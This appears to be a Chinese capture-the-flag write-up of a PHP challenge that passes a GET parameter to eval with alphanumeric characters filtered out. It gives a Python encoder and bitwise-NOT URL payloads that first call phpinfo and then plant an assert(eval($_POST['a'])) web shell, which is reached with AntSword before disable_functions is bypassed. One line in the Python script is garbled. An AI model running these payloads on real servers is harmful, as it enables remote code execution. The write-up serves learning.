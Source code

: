 ![](<./img/Pasted image 20221221195120.png>)

---
```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
	$code=$_GET['code'];
	if(strlen($code)>40){
		die("This is too Long.");
	}
	if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

// ?>
```

朴实无华.jpg

RCE，但是无字母数字QAQ

限制长度的话，估计是要转换成处理另一个参数了

构造目标是`phpinfo();`

感觉异或会太长，通过取反构造

```python
import re
s = input()gao bu lai
for ch in s:
    print('%%%02x' % (~ord(ch) + 256), end='')
```

```shell
$ python tmp.py
phpinfo
%8f%97%8f%96%91%99%90
```

```php
/?code=(~%8f%97%8f%96%91%99%90)();
```
> **disable_functions**
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,dl

这个怕不是禁得啥都不剩了QAQ

好像还有`assert`

构造`assert(eval($_POST['a']));`

```
assert ==> %9e%8c%8c%9a%8d%8b
eval($_POST['a']) ==> %9a%89%9e%93%d7%db%a0%af%b0%ac%ab%a4%d8%9e%d8%a2%d6
```

```php
/?code=(~%9e%8c%8c%9a%8d%8b)(~%9a%89%9e%93%d7%db%a0%af%b0%ac%ab%a4%d8%9e%d8%a2%d6);
```

`Antsword`连接

![](<./img/Pasted image 20221222114909.png>)

直接用轮子绕过`disable_functions`（嗯，绝对不是`LD_PRELOAD`搞不来～）

![](<./img/Pasted image 20221222120344.png>)

#Web #PHP #bypass #encoding #RCE #disable_functions #antsword